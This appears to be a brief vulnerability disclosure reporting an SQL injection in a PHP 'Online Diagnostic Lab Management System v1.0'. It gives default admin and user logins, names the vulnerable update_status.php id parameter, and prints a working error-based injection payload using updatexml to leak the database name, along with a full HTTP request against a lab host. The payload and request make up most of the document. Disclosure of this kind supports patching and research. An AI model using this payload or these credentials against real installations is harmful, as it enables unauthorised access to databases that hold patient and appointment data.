 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: 云影

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/appointments/update_status.php?id=

Vulnerability location: /odlms/admin/appointments/update_status.php?id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/appointments/update_status.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /odlms/admin/appointments/update_status.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191257359-2d3e20ca-440a-460d-86d7-3e2247104fb4.png)
